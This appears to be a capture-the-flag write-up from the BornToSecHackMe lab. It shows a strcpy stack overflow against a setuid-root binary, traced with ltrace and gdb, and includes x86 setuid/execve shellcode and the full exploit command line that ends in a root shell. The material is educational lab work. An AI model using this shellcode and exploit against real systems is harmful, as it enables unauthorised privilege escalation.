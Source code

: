 # zaz
```shell
zaz@BornToSecHackMe:~$ ls -l
total 5
-rwsr-s--- 1 root zaz 4880 Oct  8  2015 exploit_me
drwxr-x--- 3 zaz  zaz  107 Oct  8  2015 mail

zaz@BornToSecHackMe:~$ file exploit_me
exploit_me: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x2457e2f88d6a21c3893bc48cb8f2584bcd39917e, not stripped

zaz@BornToSecHackMe:~$ ltrace ./exploit_me AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
__libc_start_main(0x80483f4, 2, 0xbffff7a4, 0x8048440, 0x80484b0 <unfinished ...>
strcpy(0xbffff680, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"...)                                                                    = 0xbffff680
puts("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"...AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
)                                                                                  = 88
+++ exited (status 0) +++

zaz@BornToSecHackMe:~$ gdb -q exploit_me
Reading symbols from /home/zaz/exploit_me...(no debugging symbols found)...done.
(gdb) set args $(python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9"')
(gdb) r
Starting program: /home/zaz/exploit_me $(python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9"')
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9

Program received signal SIGSEGV, Segmentation fault.
0x37654136 in ?? ()
```
We have an executable with the setuid attribute, and by parsing the output of 
ltrace we can see that strcpy is used, with the argument passed, so let's try a 
buffer overflow. Through gdb we search for the offset where we can overwrite EIP 
and we find it at offset 140. So with the following shellcode we can use setuid 
to switch to root user and call a shell with execve:

```asm
push   0x2e
pop    eax
push   ebx
int    0x80
xor    eax,eax
push   eax
push   0x68732f2f
push   0x6e69622f
mov    ebx,esp
push   eax
push   ebx
mov    ecx,esp
cdq
mov    al,0xb
int    0x80
```

```
30 bytes:
\x6a\x2e\x58\x53\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```
Now just add 140 - 30 = 110 bytes of padding.
Again through ltrace we look for the return address of strcpy which will be the 
address of our shellcode that we will add in little endian after the padding in 
the sequence. Since the randomization of the addresses is disabled, we will 
always have the same return address.

```shell
zaz@BornToSecHackMe:~$ ltrace ./exploit_me Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
__libc_start_main(0x80483f4, 2, 0xbffff764, 0x8048440, 0x80484b0 <unfinished ...>
strcpy(0xbffff640, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...)                                                                    = 0xbffff650
puts("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
)                                                                                  = 151
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

```shell
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print "\x6a\x2e\x58\x53\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+"A"*110+"\x50\xf6\xff\xbf"')
j.XS̀1�Ph//shh/bin��PS�ᙰ
                        ̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAP���
# id
uid=1005(zaz) gid=4084 euid=0(root) groups=0(root),1005(zaz)
# ls /
bin  boot  cdrom  dev  etc  home  initrd.img  lib  media  mnt  opt  proc  rofs  root  run  sbin  selinux  srv  sys  tmp  usr  var  vmlinuz
# ls /root
README
# cat /root/README
CONGRATULATIONS !!!!
To be continued...
```